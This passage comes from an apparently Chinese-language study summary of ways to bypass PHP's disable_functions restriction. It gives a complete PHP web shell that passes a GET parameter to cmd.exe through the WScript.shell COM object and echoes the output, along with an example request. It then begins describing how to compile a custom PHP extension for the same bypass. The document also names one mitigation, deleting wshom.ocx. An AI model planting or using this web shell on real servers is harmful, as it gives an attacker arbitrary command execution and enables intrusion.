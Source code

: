 详见LD_PRELOAD



### 方法三：Windows下通过COM组件绕过

bypass_with_com.php

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell');   // 生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```



```
http://localhost/disable_functions/testcom.php?a=dir
```

![1567139599601](PHP-disabled_function绕过学习总结.assets/1567139599601.png)



Shell.Application也可以实现同样的效果

彻底的解决方案是 直接删除System32目录下wshom.ocx文件



### 方法四：利用扩展绕过

Linux下可通过编译拓展库进行绕过

1. 首先得知PHP服务器php版本，下载个相同或相近版本的php源码包

```
tar zxvf php-5.3.10.tar.gz  //解压缩 
cd php-5.3.10/ext      
./ext_skel --extname=dl  //生成名为dl的拓展库 
cd dl 
vi config.m4
```
